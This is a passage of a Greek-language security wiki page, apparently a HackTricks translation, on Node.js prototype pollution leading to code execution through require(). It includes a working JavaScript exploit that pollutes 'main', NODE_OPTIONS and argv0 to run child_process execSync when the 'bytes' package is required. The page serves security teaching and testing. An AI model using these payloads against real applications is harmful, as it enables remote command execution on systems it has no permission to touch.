 <details><summary>Ενδιαφέροντα αρχεία που βρέθηκαν από το προηγούμενο script</summary></details>

### Ορισμός της διαδρομής αρχείου που απαιτείται μέσω της προτύπου μόλυνσης

{% hint style="warning" %}
Η **προηγούμενη τεχνική απαιτεί** τον **έλεγχο της διαδρομής του αρχείου** που θα γίνει **απαιτούμενο**. Αλλά αυτό δεν ισχύει πάντα.
{% endhint %}

Ωστόσο, αν ο κώδικας πρόκειται να εκτελέσει ένα αίτημα require μετά την προτύπου μόλυνση, ακόμη κι αν **δεν έχετε έλεγχο της διαδρομής** που θα απαιτηθεί, μπορείτε **να εξαναγκάσετε την εκτέλεση ενός διαφορετικού αρχείου κατάχρησης της προτύπου μόλυνσης**. Έτσι, ακόμη κι αν η γραμμή κώδικα είναι όπως `require("./a_file.js")` ή `require("bytes")`, θα **απαιτηθεί το πακέτο που μολύνατε**.

Επομένως, αν ένα αίτημα require εκτελείται μετά την προτύπου μόλυνση σας και δεν υπάρχει συνάρτηση spawn, αυτή είναι η επίθεση:

* Βρείτε ένα **αρχείο `.js` μέσα στο σύστημα** που όταν **απαιτηθεί** θα **εκτελέσει κάτι χρησιμοποιώντας το `child_process`**
* Αν μπορείτε να ανεβάσετε αρχεία στην πλατφόρμα που επιτίθεστε, μπορείτε να ανεβάσετε ένα αρχείο σαν αυτό
* Μολύνετε τις διαδρομές για να **αναγκάσετε την απαίτηση να φορτώσει το αρχείο `.js`** που θα εκτελέσει κάτι με το child\_process
* **Μολύνετε το environ/cmdline** για να εκτελέσετε αυθαίρετο κώδικα όταν καλείται μια συνάρτηση εκτέλεσης child\_process (δείτε τις αρχικές τεχνικές)

#### Απόλυτη απαίτηση

Αν η απαιτούμενη εντολή είναι **απόλυτη** (`require("bytes")`) και το **πακέτο δεν περιέχει το main** στο αρχείο `package.json`, μπορείτε να **μολύνετε το χαρακτηριστικό `main`** και να κάνετε την **απαίτηση να εκτελέσει ένα διαφορετικό αρχείο**.

{% tabs %}
{% tab title="exploit" %}
{% code overflow="wrap" %}
```javascript
// Create a file called malicious.js in /tmp
// Contents of malicious.js in the other tab

// Install package bytes (it doesn't have a main in package.json)
// npm install bytes

// Manual Pollution
b = {}
b.__proto__.main = "/tmp/malicious.js"

// Trigger gadget
var proc = require('bytes');
// This should execute the file /tmp/malicious.js
// The relative path doesn't even need to exist


// Abusing the vulnerable code
USERINPUT = JSON.parse('{"__proto__": {"main": "/tmp/malicious.js", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\\"child_process\\\").execSync(\\\"touch /tmp/pp2rce_absolute\\\").toString())//"}}')

clone(USERINPUT);

var proc = require('bytes');
// This should execute the file /tmp/malicious.js wich create the file /tmp/pp2rec
```
{% endcode %}
{% endtab %}
